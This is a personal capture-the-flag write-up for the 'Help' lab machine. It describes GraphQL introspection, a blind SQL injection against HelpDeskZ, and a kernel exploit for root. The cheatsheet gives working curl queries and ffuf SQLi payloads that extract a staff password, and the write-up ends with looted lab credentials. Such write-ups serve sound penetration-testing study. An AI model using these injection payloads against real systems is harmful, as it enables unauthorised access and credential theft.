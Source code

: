 # Help \[Easy]

## Report

A javascript endpoint on port 3000, mentions the use of a query language, upon googling API querying languages, we find documentation for graphQL and retrieve creds. An endpoint 'support' on the main http website is running Helpdeskz, which has two publically available CVEs. The file upload function on submitting a ticket is vulnerable to SQLi which is automated by ffuf to retrieve creds for user flag.

The machine is vulnerable to a kernel level exploit which is found via searchsploit. Compile with gcc to execute binary and become root.

An alternative method involved unauthenticated file inclusion. PHP files were not allowed but remained on the website using a hash of the filename and the timestamp it was uploaded to the server. However, this exploit failed even though we used the exact timestamp instead of guessing within a time interval as the original exploit suggested.

## Cheatsheet

<pre><code>curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }'
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }'
<strong>
</strong><strong>curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User"\) { name fields { name } } }" }'
</strong>curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }'

ffuf -u "http://10.10.10.121/support//?v=view_tickets&#x26;action=ticket&#x26;param[]=4&#x26;param[]=attachment&#x26;param[]=1&#x26;param[]=6+and+mid((select+password+from+staff+limit+0,1),1,1)+%3d+'FUZZ'+--+-" -request request.txt -w ../../scripts/smallcharlist.txt -fw 73
#ffuf was reading https from the url why tho
ffuf -u "http://10.10.10.121/support//?v=view_tickets&#x26;action=ticket&#x26;param[]=4&#x26;param[]=attachment&#x26;param[]=1&#x26;param[]=6+and+mid((select+password+from+staff+limit+0,1),HFUZZ,1)+%3d+'WFUZZ'+--+-" -request request.txt -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73

ffuf -request request.txt -request-proto http -w ../../scripts/num.txt:HFUZZ -w ../../scripts/charlist.txt:WFUZZ -fw 73
-request-proto specifies what protocol to use - default https which is why the request kept using https

uname -a
</code></pre>

## Loot

### Creds

helpme@helpme.com:godhelpmeplz

help:Welcome1
